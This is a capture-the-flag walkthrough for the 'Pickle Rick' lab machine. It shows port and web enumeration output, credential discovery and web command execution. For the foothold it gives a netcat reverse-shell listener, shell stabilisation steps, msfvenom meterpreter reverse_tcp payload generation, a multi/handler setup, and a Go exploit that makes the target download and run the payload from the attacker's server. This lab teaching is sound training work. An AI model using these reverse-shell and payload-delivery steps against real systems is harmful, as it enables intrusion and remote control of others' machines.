


# Walkthrough: Pickle Rick

## Enumeration

Before an attacker can exploit a machine, they must gather intelligence about it. There are a few common methods used to gather information about a device shown below.

### NMAP

NMAP is a tool that helps discover open hosts and ports, and aids in determining what services are running on the open ports. NMAP has a host of other features as well, and I encourage you to check out NMAP's [website](https://nmap.org) for more information.

Command:

```bash
nmap -A -p- -T5 -oN nmap/all_ports $TARGET
```

Results:

```bash
Nmap scan report for 10.10.251.49
Host is up (0.082s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 69:7d:80:23:5f:6a:26:cd:88:d5:bd:44:2e:4d:4a:bd (RSA)
|   256 9f:2e:51:e2:56:f4:ce:ee:b4:74:11:58:2a:42:ca:d8 (ECDSA)
|_  256 0e:6c:77:82:de:6b:3e:1a:ab:27:cb:4e:64:40:e6:eb (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), Linux 5.4 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (92%), Sony Android TV (Android 5.0) (92%), Android 5.0 - 6.0.1 (Linux 3.4) (92%), Android 7.1.1 - 7.1.2 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1720/tcp)
HOP RTT      ADDRESS
1   12.81 ms 10.6.0.1
2   ... 3
4   81.41 ms 10.10.251.49

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 88.34 seconds
```

### Website (Nikto)

Command:

```bash
nikto -h http://$TARGET -output nikto/niktoScan.txt
```

Results:

```bash
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.251.49
+ Target Hostname:    10.10.251.49
+ Target Port:        80
+ Start Time:         2022-12-10 17:42:55 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Server may leak inodes via ETags, header found with file /, inode: 426, size: 5818ccf125686, mtime: gzip
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ Cookie PHPSESSID created without the httponly flag
+ OSVDB-3233: /icons/README: Apache default file found.
+ /login.php: Admin login page/section found.
+ 7889 requests: 0 error(s) and 9 item(s) reported on remote host
+ End Time:           2022-12-10 17:54:57 (GMT-5) (722 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

### Website (Gobuster)

Command:

```bash
gobuster dir -u http://$TARGET -w <path_to_wordlist> -x .php
```

Results:

```bash
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.251.49/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-large-directories-lowercase.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2022/12/10 17:28:40 Starting gobuster in directory enumeration mode
===============================================================
/login.php            (Status: 200) [Size: 882]
/assets               (Status: 301) [Size: 313] [--> http://10.10.251.49/assets/]
/portal.php           (Status: 302) [Size: 0] [--> /login.php]                   
/server-status        (Status: 403) [Size: 300]                                  
/denied.php           (Status: 302) [Size: 0] [--> /login.php]                   
Progress: 41284 / 112330 (36.75%)                                               [ERROR] 2022/12/10 17:29:49 [!] parse "http://10.10.251.49/error\x1f_log": net/url: invalid control character in URL
                                                                                 
===============================================================
2022/12/10 17:31:46 Finished
===============================================================
```

### Website (Manual)

When enumerating a website, it is always good to manually interact with the site and get an idea of what the target does. Looking at the source of the target page may leak information or give the attacker a better understanding of the system they are interacting with.

When we navigate to the IP address, we get the following page.


This tells us the username and password is hidden somewhere we most likely have access to. Taking a look at the source of this page reveals the username.


The next step in manual enumeration is to check for a `robots.txt` file. This file may give clues to hidden directories and pages. Navigating to the `robots.txt` file, we find a strange string. Given the hint on the main page and the username discovered in the source, this may be the password.

To test that we have the credentials, we can go to the `/login.php` page discovered by `Gobuster` and attempt a login.



When we enter what we discovered, we are taken to a "Command Panel" page. Entering `whoami` in the "Commands" input, displays a username, indicating we are running terminal commands.


## Foothold (Manual)

Now that we have command execution, we can attempt to gain a foothold on the target machine. To do this, we can use a reverse shell.  A list of common reverse shell commands can be found on the [pentestmonkey reverse shell cheat sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet). All we need to to test these out is replace `10.0.0.1` with out attack machine IP address and run `nc -lvnp <OurIP>` to listen for the reverse shell. 

Once a reverse shell is established, it is useful to stabalize the shell by running `python3 -c "import pty;pty.spawn('/bin/bash')"` , pressing `CTRL+Z`, typing in `stty raw -echo;fg`, then pressing enter twice. 

*Note: If you stabalize your shell using this method and the target shell crashes, you terminal session will lock up and need to be exited.*

## Foothold (Automated)

This repository contains a program to automatically gain a foothold on the target machine.

### MSFVenom

To create the MSFVenom payload that will be pulled down by target, use the following command:

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<YourIP> LPORT=<PORT> -f elf -o revshell --platform linux -a x86
```

### MSFConsole

To get the meterpreter payload to successfully connect back to your machine, you need to start a meterpreter session in msfconsole. To do this, run the following commands:

```bash
msfconsole -q
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set lhost <yourip>
set lport <port>
run
```

### Simple Server

To get the target to pull down the msfvenom payload, you need to have a server serving the file. A simple way to do this is to run `python3 -m http.server <port>`. This command will spin up a simple python3 file server in the current directory that the server can contact and grab the meterpreter payload from.

### Execution

Using `Go Run`:

```bash
go run exploit.go -i $TARGET -c <yourIP>  -p <server_port>
```

To compile & run:

```bash
go mod init exploit.go
go build .
./exploit -i $TARGET -c <yourIP> -p <server_port>
```

### Example

Gaining Foothold: 



Privilege Escalation:


